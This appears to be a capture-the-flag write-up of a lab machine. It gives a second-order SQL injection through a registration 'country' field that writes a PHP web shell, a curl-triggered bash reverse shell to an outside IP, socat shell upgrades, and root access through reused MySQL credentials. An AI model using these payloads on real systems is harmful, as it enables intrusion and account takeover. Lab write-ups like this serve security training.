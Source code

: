 # Summary

 - Second order SQLi
 - Password reuse for root access

## Port 80
```
Apache 2.4.48, PHP 7.4.23, OS Debian, Jquery, Bootstrap

+ http://10.129.95.235/account.php (CODE:200|SIZE:16)
+ http://10.129.95.235/config.php (CODE:200|SIZE:0)
+ http://10.129.95.235/index.php (CODE:200|SIZE:16088)

```
Second order injection after registration of user. Using "country" field we are able to inject malicious payload and then execute it with triggering of the website with appointed cookie which is a simple md5hash of the username:

```
POST / HTTP/1.1
username=josdfe&country=Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -

GET /account.php HTTP/1.1
GET /shell.php?cmd=id
```

After establishing a revers `nc` shell with `curl` command I've upgraded to stable shell with `socat` (python is missing):
```
curl http://$RHOST/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.16/1337 0>&1"'

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.16:4444
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

# Privilege escalation

Inside `config.php` are credentials for mysql.
```
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";
```

Mysql reveals an md5 hash:
```
MariaDB [mysql]> select User,Password from user;
+-------------+-------------------------------------------+
| User        | Password                                  |
+-------------+-------------------------------------------+
| mariadb.sys |                                           |
| root        | invalid                                   |
| mysql       | invalid                                   |
| uhc         | *C6A38A5736CBA87E617301ECAB64184671128718 |
+-------------+-------------------------------------------+
```

While john is running, I am trying the password from uhc user as for a root access, which works:
```
su -
```
